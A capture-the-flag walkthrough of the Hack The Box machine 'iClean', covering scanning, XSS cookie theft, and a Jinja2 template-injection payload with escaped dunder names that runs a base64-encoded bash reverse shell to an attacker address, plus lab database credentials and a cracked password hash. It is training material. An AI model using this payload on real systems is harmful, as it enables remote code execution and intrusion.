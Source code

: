 ```yaml
---
layout: post
title: HTB - iClean Walkthrough
categories: [HTB, Writeups]
date: 2024-08-28 09:45 +0200
media_subpath: /assets/images
---
```

# HTB - IClean
## Scanning

```js
# Nmap 7.94SVN scan initiated Tue Jul 16 21:00:35 2024 as: nmap -sC -sV -oA nmap/iclean -p- -vv 10.10.11.12
Nmap scan report for 10.10.11.12
Host is up, received reset ttl 63 (0.031s latency).
Scanned at 2024-07-16 21:00:36 UTC for 37s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG6uGZlOYFnD/75LXrnuHZ8mODxTWsOQia+qoPaxInXoUxVV4+56Dyk1WaY2apshU+pICxXMqtFR7jb3NRNZGI4=
|   256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJBnDPOYK91Zbdj8B2Q1MzqTtsc6azBJ+9CMI2E//Yyu
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 16 21:01:13 2024 -- 1 IP address (1 host up) scanned in 37.88 seconds
```

Visiting the site and we get redirected to capiclean.htb so we add it to the hosts file. The site is a flask web server. There is nothing interesting on the page except a login page so I will begin to enumerate.

## Enumeration

I ran a vhost scan and a directory scan and found nothing interesting. I'm thinking of using the names found on the main page to find a valid login for someone. The only intractable thing here was a page to get a quote where you could input an email and what services you'd like. I was able to find a xss vulnerability that made it possible for me to get the cookie of whoever sees the request:

![](20240723152713.png)

With the cookie set I was able to explore to the dashboard at /dashboard where I get offered a few functions

![](20240723152958.png)

Generate Invoice seems interesting since it is is getting stored somewhere which we can check with Generate QR. Anything that haven't been seen before by us is invalid so there is some kind of database storing these. Apparently I wasted a lot of time thinking this was sqli when it was ssti

## Exploitation

To exploit the ssti we have to attempt to generate a printable invoice that has qr_code parameter as input. If we put `{{7*7}}` in there for example we get 49 on the final page. And we can use this for shell:

```
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMzQvNDQ0NCAwPiYx | base64 -d | bash")["read"]() %} a {% endwith %}
```

but urlencoded ofc:

![](20240723170155.png)

## Escalation

```
/opt/app/templates/temporary_invoice.html
consuela mail /var/spool/mail /var/mail
/var/www/pmm2
```

Mysql user `iclean:pxCsmnGLckUb`

IN the database we could read the credentials of the users. Consuela had the hash `0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa`which becomes `simple and clean`. The admin hash was unknown. I was able to log in to consuelas user

The rest was pretty easy. There was a suid binary that I could use to read the root flag in some way which was this:

![](20240723175427.png)

I had to input a real pdf file so I just uploaded one from my side.
